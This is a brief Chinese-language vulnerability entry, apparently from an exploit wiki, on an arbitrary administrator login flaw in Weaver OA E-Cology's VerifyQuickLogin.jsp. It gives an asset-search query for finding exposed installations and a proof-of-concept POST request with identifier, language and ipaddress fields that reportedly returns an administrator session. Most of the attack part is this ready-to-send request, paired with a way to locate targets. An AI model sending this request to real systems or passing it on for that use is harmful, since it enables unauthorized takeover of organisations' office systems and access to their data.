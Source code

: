 # 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

泛微OA E-Cology 

## 网络测绘

app="泛微-协同办公OA"

## 漏洞复现

产品主页

![img](/assets/PeiQi-Wiki/img/1659252985356-45185f65-d899-4374-bfa1-b4d7cf397298.png)

验证POC

```php
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![img](/assets/PeiQi-Wiki/img/1659253382744-eb36ef30-038a-4bb3-8d69-d924411bcf00.png)